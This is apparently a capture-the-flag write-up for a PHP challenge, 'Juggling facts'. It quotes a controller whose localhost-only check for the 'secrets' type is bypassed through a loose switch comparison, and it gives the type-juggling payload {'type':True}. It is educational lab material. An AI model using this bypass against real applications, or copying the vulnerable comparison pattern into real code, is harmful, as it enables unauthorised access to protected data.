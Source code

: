 # Juggling facts
## Steps

1. The challange's name is `Juggling .. `, I think it is the type of juggling vulnerability.
2. Check source, we have `$router->new('POST','/api/getfacts', 'IndexController@getfacts');` in `index.php`

A snippet in `IndexController.php`
```
 public function getfacts($router)
 {
     $jsondata = json_decode(file_get_contents('php://input'), true);

     if ( empty($jsondata) || !array_key_exists('type', $jsondata))
     {
         return $router->jsonify(['message' => 'Insufficient parameters!']);
     }

     if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
     {
         return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
     }

     switch ($jsondata['type'])
     {
         case 'secrets':
             return $router->jsonify([
                 'facts' => $this->facts->get_facts('secrets')
             ]);

         case 'spooky':
             return $router->jsonify([
                 'facts' => $this->facts->get_facts('spooky')
             ]);
         
         case 'not_spooky':
             return $router->jsonify([
                 'facts' => $this->facts->get_facts('not_spooky')
             ]);
         
         default:
             return $router->jsonify([
                 'message' => 'Invalid type!'
             ]);
     }
 }
```
3. We try ` { "type":"secrets" }`:

image

4. How the above snippet works? : checks input, compares `type` parameter and `if` type === secrets && REMOTE_ADDR !== 127.0.0.1 return a message:

image

`else` return `switch case` (it is the vulnerability)

`switch ($jsondata['type'])`  is same as  `$jsondata['type'] == ???`

5. It is a loose comparison, [document about it](https://www.php.net/manual/en/types.comparisons.php).

image

We can understand `True` == `any string` retrurn `true`.

6. Final payload `{"type":True}`

image
